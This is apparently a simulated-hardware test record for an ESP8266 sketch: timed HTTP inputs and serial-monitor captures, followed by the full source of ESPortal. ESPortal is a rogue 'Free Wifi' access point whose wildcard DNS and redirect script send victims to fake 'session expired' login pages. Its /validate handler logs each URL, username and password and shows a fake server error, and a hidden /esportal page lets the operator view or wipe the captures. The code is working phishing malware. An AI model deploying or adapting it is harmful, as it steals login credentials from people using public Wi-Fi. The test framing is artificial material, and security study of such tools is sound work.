
Recording of a sketch running on a simulated ESP8266 (NodeMCU). Parts: the last lines printed to the serial monitor. The test bench sets the inputs (shaded band). Storage starts empty.

Above: at 1.4 s.
1.5 s: HTTP request GET /validate received
At 2.1 s:

3.0 s: HTTP request GET /esportal/log received
At 4.2 s:

4.5 s: HTTP request GET /esportal/wipe/yes received
At 5.6 s:

6.0 s: HTTP request GET /esportal/format/yes received
At 6.4 s:


Measured:
- after the input at 1.5 s, the serial monitor: prints a new line at once (image 1)
- after the input at 3.0 s, the serial monitor: prints a new line at once (image 2)
- after the input at 4.5 s, the serial monitor: prints a new line at once (image 3)
- after the input at 6.0 s, the serial monitor: prints a new line at once (image 4)

The sketch:

ESPortal.ino
```cpp
/*
 *ESPortal by Corey Harding
 * www.legacysecuritygroup.com
 * Configure access point name and up to 3 custom domains and login urls in config.h
 * Configure the html for login page of said domains in site1.h, site2.h, and site3.h
 * Configure the html for any other domain(catch-all) in site_other.h
 * This is only a proof-of-concept.  I am not responsible for your actions.
 * Obey all local, state, federal, and international laws!
*/
#include <ESP8266WiFi.h>
#include <WiFiClient.h>
#include <ESP8266WebServer.h>
#include <DNSServer.h>
#include <FS.h>
#include "config.h"
#include "site1.h"
#include "site2.h"
#include "site3.h"
#include "site_other.h"
#include "sitecaptiveportal.h"
#include "portal_login.h"

const byte DNS_PORT = 53;
IPAddress apIP(192, 168, 1, 1);
DNSServer dnsServer;
ESP8266WebServer webServer(80);

// Dish out Secret ESPortal Web Page
// located at anywebsite.com/esportal
void handle_portal() {
  webServer.send(200, "text/html", "<html><body>ESPortal - Capture Login Credentials<br>Written by:<br>Corey Harding from www.LegacySecurityGroup.com<br>-----<br><a href=\"/esportal/log\">View /log.txt</a></html><br>-<br><a href=\"/esportal/wipe\">Wipe /log.txt</a><br>-<br><a href=\"/esportal/format\">Format File System</a></html>");
}
String webString="";
String serialString="";
// End of Dish

void setup() {
  //Start Serial
  Serial.begin(9600);
  Serial.println();
  Serial.println();
  Serial.println();

  //Create Access Point
  Serial.print("Creating Access Point...");
  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(apIP, apIP, IPAddress(255, 255, 255, 0));
  WiFi.softAP(setSSID);
  Serial.println(" Success!");

  //Start DNS Server
  Serial.print("Starting DNS Server...");
  dnsServer.start(DNS_PORT, "*", apIP);
  Serial.println(" Success!");

  // Initialize file system and log file
  Serial.print("Initializing File System(First time can take around 90 seconds)...");
  SPIFFS.begin();
  Serial.println(" Success!");
  Serial.print("Checking for log.txt file...");
  // this opens the file "log.txt" in read-mode
  File f = SPIFFS.open("/log.txt", "r");

  if (!f) {
    Serial.print(" File doesn't exist yet. Creating it...");
    // open the file in write mode
    File f = SPIFFS.open("/log.txt", "w");
    if (!f) {
      Serial.println("File creation failed!");
    }
    f.println("File: /log.txt");
    f.println("Captured Login Credentials:");
  }
  f.close();
  Serial.println(" Success!");
  // End of file system block

  //check domain name and refresh page
  webServer.onNotFound([]() {
    webServer.send(200, "text/html", responseHTML);
  });

  //generic catch all login page for domains not listed in configuration
  webServer.on(SITEOTHER_redirect,[]() {
    webServer.send(200, "text/html", SITE_OTHER_HTML);
  });

  //SITE1 login page
  webServer.on(SITE1_redirect,[]() {
    webServer.send(200, "text/html", SITE1_HTML);
  });

  //SITE2 login page
  webServer.on(SITE2_redirect,[]() {
    webServer.send(200, "text/html", SITE2_HTML);
  });

  //SITE3 login page
  webServer.on(SITE3_redirect,[]() {
    webServer.send(200, "text/html", SITE3_HTML);
  });

    //Portal login page
  webServer.on(PORTALLOGIN_redirect,[]() {
    webServer.send(200, "text/html", PORTAL_LOGIN_HTML);
  });

  //Portal Page
  webServer.on("/esportal", handle_portal);

  //Validate-Save USER/PASS
  webServer.on("/validate", []() {
    String url = webServer.arg("url");
    String user = webServer.arg("user");
    String pass = webServer.arg("pass");
    File f = SPIFFS.open("/log.txt", "a");
    f.print(url);
    f.print(":");
    f.print(user);
    f.print(":");
    f.println(pass);
    f.close();
    webString = "HTTP Error 500 Internal server error";
    serialString =user+":"+pass;
    webServer.send(200, "text/html", webString);
    Serial.println(serialString);
    serialString="";
    webString="";
  });

  //Log Page
  webServer.on("/esportal/log", [](){
    webString="<html><body><a href=\"/esportal\"><- BACK TO INDEX</a><br><pre>";
    File f = SPIFFS.open("/log.txt", "r");
    serialString = f.readString();
    webString += serialString;
    f.close();
    webString += "</pre></body></html>";
    webServer.send(200, "text/html", webString);
    Serial.println(serialString);
    serialString="";
    webString="";
  });

  //Wipe Log Page
  webServer.on("/esportal/wipe", [](){
    webServer.send(200, "text/html", "<html><body>This will wipe all your captures from /log.txt file.<br><br>Are you sure?<br><br><a href=\"/esportal/wipe/yes\">YES</a> - <a href=\"/esportal\">NO</a></html>");
  });

  webServer.on("/esportal/wipe/yes", [](){
    webServer.send(200, "text/html", "Logs have been wiped.<br><br><a href=\"/esportal\"><- BACK TO INDEX</a>");
    File f = SPIFFS.open("/log.txt", "w");
    f.println("File: /log.txt");
    f.println("Captured Login Credentials:");
    f.close();
    Serial.println("Logs wiped");
  });

  //Format SPIFFS Page
  webServer.on("/esportal/format", [](){
    webServer.send(200, "text/html", "<html><body>This will reformat the SPIFFS File System.<br><br>Are you sure?<br><br><a href=\"/esportal/format/yes\">YES</a> - <a href=\"/esportal\">NO</a></html></html>");
  });

  webServer.on("/esportal/format/yes", [](){
    webServer.send(200, "text/html", "Formatting file system<br>This may take up to 90 seconds<br><br><a href=\"/esportal\"><- BACK TO INDEX</a>");
    Serial.print("Formatting file system...");
    SPIFFS.format();
    Serial.println(" Success");
  });

  //Start Webserver
  Serial.print("Starting web server...");
  webServer.begin();
  Serial.println(" Success!");
}

void loop() {
  //Check for DNS Request/Dish out Web Pages
  dnsServer.processNextRequest();
  webServer.handleClient();
}
```

site1.h
```cpp
String SITE1_HTML = ""
"<!DOCTYPE html>"
"<html>"
"<body bgcolor='orange' text='white'>"
"<center><h1>"
"Session at "
"<script>"
"document.write(document.domain);"
"</script>"
" Expired<br><br>Please login again.</h1></center><center>"
"</p><form method='get' action='/validate'><label>USERNAME: </label><input type='text' name='user' length=64><br><label>PASSWORD: </label><input type='password' name='pass' length=64><input type='hidden' id='isURL' name='url' value='' /><br><br><input style='color:white;background-color:blue' value='Log-In' type='submit'></form>"
"<script>"
"document.getElementById('isURL').value=document.domain;"
"</script>"
"</center>"
"<body>"
"</html>";
```

site2.h
```cpp
String SITE2_HTML = ""
"<!DOCTYPE html>"
"<html>"
"<body bgcolor='blue' text='white'>"
"<center><h1>"
"Session at "
"<script>"
"document.write(document.domain);"
"</script>"
" Expired<br><br>Please login again.</h1></center><center>"
"</p><form method='get' action='/validate'><label>USERNAME: </label><input type='text' name='user' length=64><br><label>PASSWORD: </label><input type='password' name='pass' length=64><input type='hidden' id='isURL' name='url' value='' /><br><br><input style='color:black;background-color:white' value='Log-In' type='submit'></form>"
"<script>"
"document.getElementById('isURL').value=document.domain;"
"</script>"
"</center>"
"<body>"
"</html>";
```

site3.h
```cpp
String SITE3_HTML = ""
"<!DOCTYPE html>"
"<html>"
"<body bgcolor='purple' text='white'>"
"<center><h1>"
"Session at "
"<script>"
"document.write(document.domain);"
"</script>"
" Expired<br><br>Please login again.</h1></center><center>"
"</p><form method='get' action='/validate'><label>USERNAME: </label><input type='text' name='user' length=64><br><label>PASSWORD: </label><input type='password' name='pass' length=64><input type='hidden' id='isURL' name='url' value='' /><br><br><input style='color:white;background-color:blue' value='Log-In' type='submit'></form>"
"<script>"
"document.getElementById('isURL').value=document.domain;"
"</script>"
"</center>"
"<body>"
"</html>";
```

site_other.h
```cpp
String SITE_OTHER_HTML = ""
"<!DOCTYPE html>"
"<html>"
"<body bgcolor='black' text='white'>"
"<center><h1>"
"Session at "
"<script>"
"document.write(document.domain);"
"</script>"
" Expired<br><br>Please login again.</h1></center><center>"
"</p><form method='get' action='/validate'><label>USERNAME: </label><input type='text' name='user' length=64><br><label>PASSWORD: </label><input type='password' name='pass' length=64><input type='hidden' id='isURL' name='url' value='' /><br><br><input value='Log-In' type='submit'></form>"
"<script>"
"document.getElementById('isURL').value=document.domain;"
"</script>"
"</center>"
"<body>"
"</html>";
```

sitecaptiveportal.h
```cpp
//The javascript captive portal that makes it all happen!
String responseHTML = ""
"<!DOCTYPE html>"
"<html>"
"<body>"
"<script>"
"if (document.domain==\""+PORTALLOGIN+"\"||document.domain==\"go.microsoft.com\")"
"{"
"window.open(\"http://"+WELCOMEDOMAIN+PORTALLOGIN_redirect+"\",\"_self\");"
"}"
"else if (document.domain==\""+SITE1+"\"||document.domain==\"www."+SITE1+"\"||document.domain==\"mobile."+SITE1+"\")"
"{"
"window.open(\"http://\"+document.domain+\""+SITE1_redirect+"\",\"_self\");"
"}"
"else if (document.domain==\""+SITE2+"\"||document.domain==\"www."+SITE2+"\"||document.domain==\"mobile."+SITE2+"\")"
"{"
"window.open(\"http://\"+document.domain+\""+SITE2_redirect+"\",\"_self\");"
"}"
"else if (document.domain==\""+SITE3+"\"||document.domain==\"www."+SITE3+"\"||document.domain==\"mobile."+SITE3+"\")"
"{"
"window.open(\"http://\"+document.domain+\""+SITE3_redirect+"\",\"_self\");"
"}"
"else"
"{"
"window.open(\"http://\"+document.domain+\""+SITEOTHER_redirect+"\",\"_self\");"
"}"
"</script>"
"<body>"
"</html>";
```

config.h
```cpp
//!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
//User Configuration Happens Here!

//Name of Access Point
const char *setSSID="Free Wifi";

//enter URLs HERE for target sites - example: String SITE1="www.exploit.agency";
//do not use www.

//redirects user to www.SITE1.com/login when user visits www.SITE1.com
String SITE1="fakesite1.com";
const char *SITE1_redirect="/login";

//redirects user to www.SITE2.com/sign-in when user visits www.SITE2.com
String SITE2="fakesite2.com";
const char *SITE2_redirect="/sign-in";

//redirects user to www.SITE3.com/authenticate when user visits www.SITE3.com
String SITE3="fakesite3.com";
const char *SITE3_redirect="/authenticate";

//all other requests for "anysite.com" go to www.anysite.com/user/login
const char *SITEOTHER_redirect="/user/login";

//Portal Login Redirect Success Page www.accesspoint.com/welcome
String WELCOMEDOMAIN="ouraccesspoint.com";
const char *PORTALLOGIN_redirect="/welcome";
String PORTALLOGIN="192.168.1.1"; //IP of ESP8266 has to go here for it to work

//access ESPORTAL Logs at www.anysite.com/esportal
//!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
```

portal_login.h
```cpp
String PORTAL_LOGIN_HTML = ""
"<!DOCTYPE html>"
"<html>"
"<body bgcolor='black' text='white'>"
"<center><h1>"
"Welcome to our Free Wifi!"
"</h1></center>"
"<body>"
"</html>";
```
